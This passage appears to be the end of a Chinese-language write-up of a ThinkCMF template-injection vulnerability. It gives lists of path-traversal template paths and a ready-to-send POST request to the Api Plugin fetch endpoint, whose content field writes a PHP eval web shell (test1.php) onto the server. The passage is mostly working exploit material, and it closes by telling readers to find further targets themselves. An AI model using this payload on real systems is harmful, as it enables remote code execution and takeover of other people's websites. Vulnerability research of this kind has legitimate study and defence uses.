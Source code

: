 ```
例如：
/../public/index
/../public/exception
/../data/index
/../data/runtime/index
/../plugins/Mobileverify/View/admin_index
/../plugins/Mobileverify/View/index
/../plugins/Mobileverify/View/widget
/../plugins/Demo/View/admin_index
/../plugins/Demo/View/index
/../plugins/Demo/View/widget
/../application/Install/View/Public/footer
/../application/Install/View/Public/head
/../application/Install/View/Public/header
/../application/Common/index
/../application/Portal/Lang/en-us/index
/../application/Api/Lang/en-us/index
/../application/Api/Lang/zh-cn/index
/../application/Comment/Lang/en-us/index
/../application/Comment/Lang/zh-cn/index 
```

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php> 
```

```
/../../../public/index
/../../../public/exception
/../../../data/index
/../../../data/runtime/index
/../../../plugins/Mobileverify/View/admin_index
/../../../plugins/Mobileverify/View/index
/../../../plugins/Mobileverify/View/widget
/../../../plugins/Demo/View/admin_index
/../../../plugins/Demo/View/index
/../../../plugins/Demo/View/widget
/../../../application/Install/View/Public/footer
/../../../application/Install/View/Public/head
/../../../application/Install/View/Public/header
/../../../application/Common/index
/../../../application/Portal/Lang/en-us/index
/../../../application/Api/Lang/en-us/index
/../../../application/Api/Lang/zh-cn/index
/../../../application/Comment/Lang/en-us/index
/../../../application/Comment/Lang/zh-cn/index 
```

还有最后一句废话：模版注入对于linux 并不好用 : )
差不多了，剩下的自己去thinkcmf里面自己找

## 四、参考链接

> 文章来源于https://www.yuque.com/pmiaowu/bfgkkh/aiiak1
